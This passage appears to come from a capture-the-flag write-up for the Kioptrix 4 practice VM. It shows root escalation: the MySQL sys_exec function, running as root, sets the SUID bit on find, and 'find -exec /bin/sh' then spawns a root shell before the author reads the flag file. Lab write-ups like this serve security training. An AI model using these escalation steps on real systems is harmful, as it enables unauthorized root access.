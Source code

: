 ```bash
$ whoami      
john
$ cat /tmp/out
uid=0(root) gid=0(root)
```

## Touch Fluffytail

The sys_exec function is already there, runs as root, and is there for us to use.

```bash
mysql> select sys_exec('chmod u+s /usr/bin/find');
+-------------------------------------+
| sys_exec('chmod u+s /usr/bin/find') |
+-------------------------------------+
| NULL                                | 
+-------------------------------------+
1 row in set (0.00 sec)

mysql> exit;
Bye
john@Kioptrix4:~$ touch fluffytail
john@Kioptrix4:~$ find fluffytail -exec "whoami" \;
root
john@Kioptrix4:~$ find fluffytail -exec "/bin/sh" \;
# whoami
root
```

Let's grab that flag.

```bash
# cd /root
# pwd
/root
# ls
congrats.txt  lshell-0.9.12
# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret

# 
```

And there we have it. This one was a lot of fun. On to 5!